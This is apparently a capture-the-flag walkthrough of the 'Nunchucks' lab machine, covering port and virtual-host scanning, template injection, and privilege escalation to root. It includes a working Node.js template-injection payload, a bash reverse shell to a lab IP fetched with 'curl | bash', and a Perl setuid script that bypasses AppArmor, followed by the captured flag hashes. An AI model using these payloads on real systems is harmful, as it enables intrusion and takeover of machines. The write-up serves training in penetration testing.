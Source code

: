 ![Nunchucks.PNG](/assets/Machines/Easy/Nunchucks/Nunchucks.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.122
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.122
```
**Output**
```bash
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

3. Do virtual hosting with web page and look

![web.PNG](/assets/Machines/Easy/Nunchucks/web.PNG)

* Login and Sig up Modules are disables, in this case use vhost busting.

4. Use **vhost** to discover subdomains
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Nunchucks]
└─| wfuzz -c -t 200 --hc=404 --hh=30587 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.nunchucks.htb" https://nunchucks.htb
```

**Output**
```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

000000081:   200        101 L    259 W      4028 Ch     "store"
```
* Put subdomain discover in `/etc/hosts`

5. Visit new web page

![web2.PNG](/assets/Machines/Easy/Nunchucks/web2.PNG)

* When you look a site like this you think in **SSTI Attack**
  
![informarion.PNG](/assets/Machines/Easy/Nunchucks/informarion.PNG)

* You use `{{range.constructor("return global.process.mainModule.require('child_process').execSync('<command>')")()}}` to execute commands

6. Test any command in Burpsuite

![test.PNG](/assets/Machines/Easy/Nunchucks/test.PNG)

* Command execute: `tail /etc/passwd`

7. Execute a command to get a reverse shell, in this we can obtain this of other way.

First, create a index.html in current folder and put this in the file
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.32/443 0>&1
```

---

Then, create a server with python in current folder
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Nunchucks]
└─| python -m http.server 80
```

---

Finally, execute this command `curl <tun0 IP> | bash`

* We do all previous process for avoid errors
* Remember listen with **nc** 

**Output**
```bash
david@nunchucks:/var/www/store.nunchucks$ whoami
david
```


8. Cat **user flag**
```bash
david@nunchucks:/var/www/store.nunchucks$ cat /home/david/user.txt 
455fe77f0e9cc9286871ae400f7eaf06
```

---
---
---

### Privileges Escalation 💀
1. Search all capabilities
```bash
david@nunchucks:/var/www/store.nunchucks$ getcap -r / 2>/dev/nul
```

**Output**
```bash
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

2. Try to change your UID

![cap.PNG](/assets/Machines/Easy/Nunchucks/cap.PNG)

* In this case the command not function.

3. Search files for SeLinux or AppArmor are security modules.
```bash
david@nunchucks:/var/www/store.nunchucks$ find / -name "apparmor" 2>/dev/null | grep -vE 'proc|var'
/usr/lib/apparmor
/usr/lib/python3/dist-packages/apparmor
/usr/share/apparmor
/usr/share/doc/apparmor
/usr/share/lintian/overrides/apparmor
/usr/src/linux-headers-5.4.0-86/security/apparmor
/usr/src/linux-headers-5.4.0-81-generic/include/config/security/apparmor
/usr/src/linux-headers-5.4.0-86-generic/include/config/security/apparmor
/usr/src/linux-headers-5.4.0-81/security/apparmor
/etc/apparmor
/etc/init.d/apparmor
/sys/kernel/security/apparmor
/sys/module/apparmor
```

* In this case the system have **AppArmor module**

4. Search vulnerabilities with perl AppArmor https://bugs.launchpad.net/apparmor/+bug/1911431

5. Exploit with previous vulnerability
* Bug is in use `#!/usr/bin/perl`
* Create a file with this perl script in `/tmp`
```perl
#!/usr/bin/perl

use POSIX qw(setuid); 
POSIX::setuid(0); 
exec "/bin/sh";
```

* Put execute permission and go!

**Output**
```bash
david@nunchucks:/tmp$ ./exploit.pl 
# whoami
root
```

6. Cat **root flag**
```bash
# cat /root/root.txt
0c0b3b3868bce3dc3c495aebf417c179
```